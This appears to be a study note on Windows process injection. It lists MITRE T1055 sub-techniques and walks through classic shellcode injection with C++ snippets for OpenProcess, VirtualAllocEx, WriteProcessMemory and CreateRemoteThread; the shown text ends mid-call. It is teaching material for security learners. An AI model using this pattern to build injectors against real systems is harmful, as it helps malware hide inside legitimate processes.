 # [[Windows Internals#Processes|Processes]]
Process injection is commonly used as a an overarching term to describe injecting malicious code into a process through legitimate functionality or components.

| **Injection Type**                                                               | **Function**                                                                  |
| -------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- |
| [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/)              | Inject code into a suspended and “hollowed” target process                    |
| [Thread Execution Hijacking](https://attack.mitre.org/techniques/T1055/003/)     | Inject code into a suspended target thread                                    |
| [Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001/) | Inject a DLL into process memory                                              |
| [Portable Executable Injection](https://attack.mitre.org/techniques/T1055/002/)  | Self-inject a PE image pointing to a malicious function into a target process |
There are many other forms of process injection outlined by [MITRE T1055](https://attack.mitre.org/techniques/T1055/).
At its most basic level, process injection takes the form of shellcode injection.
1. Open a target process with all access rights
2. Allocate target process memory for the shellcode
3. Write shellcode to allocated memory in the target process
4. Execute the shellcode using a remote thread
![[Pasted image 20240814031257.png]]
At step one of shellcode injection, we need to open a target process using special parameters. `OpenProcess` is used to open the target process supplied via the command-line
```cpp
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```
At step two, we must allocate memory to the byte size of the shellcode. Memory allocations is handled using `VirtualAllocEx`. Within the call, the `dwSize` parameter is defined using the `sizeof` function to get the bytes of shellcode to allocate
```cpp
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```
At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.
```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```
At step four, we now have control of the process, and our malicious code is now written to memory. To execute the shellcode residing in memory, we can use `CreateRemoteThread`.
```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
```